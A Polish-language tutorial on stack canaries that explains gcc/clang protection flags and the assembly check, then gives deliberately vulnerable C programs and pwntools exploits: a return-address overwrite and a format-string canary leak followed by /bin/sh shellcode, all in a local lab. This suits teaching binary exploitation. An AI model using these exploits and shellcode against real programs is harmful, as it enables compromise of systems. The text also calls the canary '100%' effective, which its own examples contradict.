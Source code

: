# Stack canary

### 1. Opis

Kanarek jest mechanizmem zabezpieczenia stosu. Stara się on zapobiegać zmianie wykonania programu za pomocą nadpisywania elementów na stosie.

Stack canary albo security cookie to losowa wartość zapisywana na stosie przed adresem powrotu. Przed powrotem wartość ta jest sprawdzana. Jeżeli uległa zmianie, przerywane jest działanie programu.

Wartości kanarka mogą być generowane w różny sposób. Mogą to być wartości zawierające elementy takie jak `null byte` czy `terminator chars`, aby zapobiegać nadpisaniu kanarka. W przypadku przepełnienia bufora zapisanie takich znaków jest dość trudne przy użyciu danych funkcji.

Dość popularną strategią jest generacja kanarka w losowy sposób przy inicjalizacji programu i zapis go w zmiennych globalnych. Oczywiście odczytanie takiego kanarka może być możliwe, dlatego często jest on paddowany pustymi stronami.

Istnieją też tak zwane `XOR canaries`, czyli kanarki, których wartość to XOR paru losowo wybranych wartości z programu. Dzięki temu nadpisanie takiego kanarka graniczy z cudem.

Jest to domyślna opcja kompilatora `gcc`, można ją wyłączyć flagą `-fno-stack-protector`. Ochronę funkcji z buforami większymi niż 8 bajtów i używającymi `alloca` włącza `-fstack-protector`. A ochronę wszystkich funkcji włącza `-fstack-protector-all`.

Podobnie zachowuje się `clang`.

Kanarek sprawdza się przeciwko atakom, które nadpisują adres powrotu - ataki typu `ret2libc`, `ropchain` są bezużyteczne bez znajomości kanarka. 

Kanarek nie chroni przed atakami typu `format string`.

### 2. Wygląd w assemblerze

Koniec wywołania funkcji z kanarkiem wygląda następująco.

![img_2.png](img/img_7.png)

Do rejestru `eax` ładowany jest aktualny kanarek funkcji. Następnie odejmowany jest on od zapisanego kanarka w `gs:0x14`. W przypadku zgodności kanarków wartość odejmowania to zero.

Wtedy ustawiana jest flaga zero i instrukcja `je` omija `call` do funkcji mówiącej o błędzie kanarka i wywołanie kończy się normalnie. W przeciwnym przypadku wywoływana jest funkcja, która obsługuje błąd.

### 3. Proof of concept - prosta zmiana wykonania

Kanarek jest dobra metodą obrony przed atakami typu `ASLR & PIE/exploit_1`. Ataki bazujące na nadpisaniu adresu powrotu są dobrze łatane przez kanarka stosu. Jest to lepsza metoda niż ASLR, bo w 100% skuteczna.

Oczywiście wyciek pamięci (`arbitrary read`) pozwala bardzo łatwo obejść kanarka po prostu nadpisując w jego miejsce odpowiednią wartość.

Kod aplikacji podatnej jest taki sam, jaki  i exploit.

- **PIE & ASLR**: wyłączony - opcje te pozwalają na stały adres funkcji - ułatwiają exploitację.
- **CANARY**: wyłączony - jest to idea tego exploitu.

```c
// gcc vuln.c -no-pie -std=c99 -m32 -fno-stack-protector -z execstack -w -o vuln.o
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void secret() {
    system("sh");
}

void ask_for_name()
{
    char name[12] = {0};
    puts("What's your name?");
    gets(name);
    printf("Hi %s!\n", name);
}

int main()
{
    ask_for_name();
return 0;
}
```

Exploit ten był już opisywany w poprzednich rozdziałach. Ładuje on pod adres powrotu adres funkcji `secret`

Exploit:
```python
from pwn import *

p = process("./vuln.o")

p.readuntil("What's your name?\n")


name = b'AAAABBBBCCCCDDDDEEEEFFFF' # inject aaaas till eip
name += b'\xc9\x61\x55\x56' 

p.sendline(name)

p.interactive()

```

W tym przypadku przy kompilacji bez kanarka udaje się dostać shell.

![img.png](img/img_5.png)

A w przypadku kompilacji z kanarkiem nie udaje się - widać tutaj błąd, który wyrzucił kanarek.

![img_1.png](img/img_6.png)


### 4. Proof of concept - leak kanarka i wykonywalny stos

Istotą tego exploitu będzie pozyskanie wartości kanarka za pomocą format string.

Kod aplikacji podatnej: 

```c
#include <stdio.h>

int main(int argc, char *argv[]) {
    char name[16];
    char purpose[64];

    gets(name);
    printf("Hi!");
    printf(name);
    printf("\n");
    gets(purpose);
    printf("%s",purpose);
    return 0;

}
```

Schemat działania:
- Zlokalizować, którym argumentem pozycyjnym na stosie jest kanarek.
- Zlokalizować element na stosie, który ma stały adres względem drugiego bufora.
- Za pomocą otrzymanego adresu oraz wartości kanarka zbudować shellcode.

Aby otrzymać argumenty będę używał exploitu format string. Konstrukcja `%15$x` pobierze 15 element ze stosu, liczbę mogę podmieniać.

Podpinam `gdb` do procesu aplikacji i szukam adresu do zatrzymania wykonania. Wybieram adres przed sprawdzeniem kanarka. Widzę też, gdzie powinien znajdować się kanarek -`[ebp-0xc]`.

![img.png](img/img.png)

W `gdb` wyświetlam stos i lokalizuję kanarka.

![img_1.png](img/img_1.png)

Kanarek znajduje się w zamierzonym miejscu. Dwa adresy wyżej widzę również adres, który wygląda na adres, który może posłużyć do znalezienia offsetu naszego bufora. Upewniam się, że adres ten jest dobry kilkukrotnie wywołując program i sprawdzając offset od bufora - jest on stały i wynosi `0x108`.

Teraz strzelam w losowy argument na stosie i staram się ustalić, gdzie jest kanarek i mój adres.

```c
import * from pwn

p = process("./vuln_2.o")

first_payload = "%20$x%21$x"
```

![img_2.png](img/img_2.png)

Otrzymuję dwa adresy, które znajduję na stosie.

![img_3.png](img/img_3.png)

Kanarek znajduje się na 31 pozycji, a nasz adres na 29. Od drugiego adresu muszę odjąć `0x108` i dodać offset wygenerowany przez elementy przed shellcode.

Gotowy shellcode bedzie wyglądał tak:
```
'aaaa...'+kanarek+adres_shellcode+shellcode
```
Piszę exploit:

```python
from pwn import *

p = process("./vuln_2.o")

first_payload = ",%29$x,%31$x"
p.sendline(first_payload) # wysylam format string do leakowania informacji
gdb.attach(p)
answer = p.recvline().decode("utf-8").split(',') # formatuje informacje
canary = int(answer[2],16) 
offset_address = int(answer[1],16)
buffor_address = offset_address - 0x108 
stuffed_canary = b'a'*64+p32(canary)

shellcode_address = buffor_address + len(stuffed_canary) +4
shellcode = b'\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

second_payload = stuffed_canary + p32(shellcode_address) + shellcode

p.sendline(second_payload)

p.interactive()

```

Został wywołany shell - exploit działa.

![img_4.png](img/img_4.png)

### 5. Proof of concept - GOT overwrite z format string

Opis tego exploita znajduje się w następnym rodziale, jest to exploit przed którym kanarek nie jest w stanie ochronić. Kanarek w żaden sposób nie chroni przed atakami typu format string oraz atakami typu GOT.

### 6. Wnioski

Kanarek stosu jest dobrą metodą zabezpieczenia przed nadpisaniem adresu powrotu. Dobrą praktyką jest stosowanie go w funkcjach zawierających bufor domyślnie, używanie kanarka w każdej funkcji nie jest zalecane bez powodu.